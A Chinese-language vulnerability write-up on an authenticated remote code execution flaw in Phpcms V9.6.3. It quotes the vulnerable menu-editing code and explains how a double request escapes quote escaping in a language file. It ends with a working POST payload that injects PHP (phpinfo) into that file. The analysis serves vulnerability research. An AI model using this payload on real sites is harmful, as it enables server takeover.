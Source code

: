 Phpcms V9.6.3 后台远程命令执行漏洞
==================================

一、漏洞简介
------------

二、漏洞影响
------------

Phpcms V9.6.3

三、复现过程
------------

### 漏洞分析

漏洞代码位于 `/phpcms/modules/admin/menu.php` 第 81 行

    function edit() {
        if(isset($_POST['dosubmit'])) {
            $id = intval($_POST['id']);
            //print_r($_POST['info']);exit;
            $r = $this->db->get_one(array('id'=>$id));
            $this->db->update($_POST['info'],array('id'=>$id));
            //修改语言文件
            $file = PC_PATH.'languages'.DIRECTORY_SEPARATOR.'zh-cn'.DIRECTORY_SEPARATOR.'system_menu.lang.php';
            require $file;
            $key = $_POST['info']['name'];
            if(!isset($LANG[$key])) {
                $content = file_get_contents($file);
                $content = substr($content,0,-2);
                $data = $content."\$LANG['$key'] = '$_POST[language]';\r\n?>";
                file_put_contents($file,$data);
            } elseif(isset($LANG[$key]) && $LANG[$key]!=$_POST['language']) {
                $content = file_get_contents($file);
                $content = str_replace($LANG[$key],$_POST['language'],$content);
                file_put_contents($file,$content);
            }
            $this->update_menu_models($id, $r, $_POST['info']);          
            //结束语言文件修改
            showmessage(L('operation_success'));
        } else {

        .  .  .   .  .  .  

        }
    }

这段代码是修改语言文件用的，而这个语言文件就是
/phpcms/languages/zh-cn/system\_menu.lang.php

里面一堆类似 `$LANG['video'] = '视频';` 的东西

当时用 rips 扫描发现的大多是
`$data = $content."\$LANG['$key'] = '$_POST[language]';\r\n?>";`
这种拼接操作，而且 POST 中的单引号会被转义，无法逃逸

转义代码位于 `/phpcms/libs/classes/param.class.php`

    public function __construct() {
        if(!get_magic_quotes_gpc()) {
            $_POST = new_addslashes($_POST);
            $_GET = new_addslashes($_GET);
            $_REQUEST = new_addslashes($_REQUEST);
            $_COOKIE = new_addslashes($_COOKIE);
        }

    }

而这里突然看到一个 str\_replace ，
`str_replace($LANG[$key],$_POST['language'],$content)`，感觉可能会有漏洞

一番胡乱测试之后惊奇的发现网站 500 了，细看原来是单引号逃逸导致报错

下面是漏洞分析过程

首先要登录后台拿到 pc\_hash 的值，这个是防止提交恶意数据的，后台首页 F12
就能看到

![1.png](./resource/PhpcmsV9.6.3后台远程命令执行漏洞/media/rId25.png)

然后访问：

    http://www.0-sec.org:9000/index.php?m=admin&c=menu&a=edit&pc_hash=wCuF7w

phpcms 的路由和那个 yzmcms 差不多，m 是模块名，对应 /phpcms
下的文件夹，c 是控制器名，对应 /phpcms/模块/ 下的 php 文件名，a
则对应控制器类的类函数名

发送 POST 请求：

    dosubmit=1&info[name]=1&language=1

语言文件最后会新添内容

    $LANG['1'] = '1';

### 第一次请求

发送 POST 请求：

    dosubmit=1&info[name]=1&language=1'

`require $file;` 引入语言文件，`$LANG[$key]` 的值还是
NULL，所以执行拼接操作

    $data = $content."\$LANG['$key'] = '$_POST[language]';\r\n?>";
    file_put_contents($file,$data);

得到语言文件新添内容为

    $LANG['1'] = '1\'';
    ?>

### 第二次请求

发送与第一次相同的 POST 请求

`require $file;` 引入语言文件得到 `$LANG[$key]` 的值是
`string(2) "1'"`，也就是说，没有反斜杠，这样问题就出现了，我们同样的请求发送了两次，按照代码逻辑来看，是不应该更新
`$LANG[$key]` 的值的

但是因为 `require` 和 `file_get_contents`
函数读取之后的文件内容不含反斜杠，而我们 POST 传入的 language
会被转义处理得到的值是 `string(3) "1\'"`

于是判断 `$LANG[$key]!=$_POST['language']` 就成立了，接着 `str_replace`
函数进行字符串替换操作，把原来的 `$LANG['1'] = '1\'';` 中的 `1'` 替换成
`1\'`，最终写入文件

结果就得到了以下文件内容，第二个单引号被反斜杠转义，无法闭合

    $LANG['1\'] = '1\'';
    ?>

payload:

发送两次以下请求，访问语言文件
http://www.0-sec.org:9000/phpcms/languages/zh-cn/system\_menu.lang.php
即可得到 phpinfo

URL:

    http://www.0-sec.org:9000/index.php?m=admin&c=menu&a=edit&pc_hash=wCuF7w

POST:

    dosubmit=1&info[name]=];phpinfo();//1&language=];phpinfo();//1'

![2.png](./resource/PhpcmsV9.6.3后台远程命令执行漏洞/media/rId28.png)

参考链接
--------

> http://j0k3r.top/2019/10/09/phpcmsv9.6.3\_background\_rce/
